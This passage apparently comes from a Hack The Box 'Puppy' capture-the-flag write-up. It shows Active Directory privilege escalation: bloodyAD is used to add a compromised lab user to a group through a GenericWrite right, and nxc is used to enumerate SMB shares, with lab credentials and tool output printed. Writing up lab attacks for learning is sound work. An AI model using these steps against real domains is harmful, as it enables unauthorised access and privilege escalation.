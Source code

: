 They're part of the `HR` group which has the `GenericWrite` permission over the `DEVELOPERS` group!

We can add the compromised `levi.james` user to the `DEVELOPERS` group
```bash
sync-ad bloodyAD --host puppy.htb -d dc.puppy.htb -u 'levi.james' -p 'KingofAkron2025!' add groupMember 'DEVELOPERS' 'levi.james'
```

```bash
[+] levi.james added to DEVELOPERS
```

Looking at the full graph to admin

![htb-puppy-bloodhound-full](images/HTB-puppy/htb-puppy-bloodhound-full.png)

If we can pwn the `ant.edwards` user we have a foothold onto the system!

## user.txt
Let's check the accessible `SMB` shares again
```bash
┌──(kali@kali)-[~/puppy.htb]
└─$ sync-ad nxc smb dc.puppy.htb -d puppy.htb -u 'levi.james' -p 'KingofAkron2025!' -k --shares                                      
SMB         dc.puppy.htb    445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False) 
SMB         dc.puppy.htb    445    DC               [+] puppy.htb\levi.james:KingofAkron2025! 
SMB         dc.puppy.htb    445    DC               [*] Enumerated shares
SMB         dc.puppy.htb    445    DC               Share           Permissions     Remark
SMB         dc.puppy.htb    445    DC               -----           -----------     ------
SMB         dc.puppy.htb    445    DC               ADMIN$                          Remote Admin
SMB         dc.puppy.htb    445    DC               C$                              Default share
SMB         dc.puppy.htb    445    DC               DEV             READ            DEV-SHARE for PUPPY-DEVS
SMB         dc.puppy.htb    445    DC               IPC$            READ            Remote IPC
SMB         dc.puppy.htb    445    DC               NETLOGON        READ            Logon server share 
SMB         dc.puppy.htb    445    DC               SYSVOL          READ            Logon server share 
```
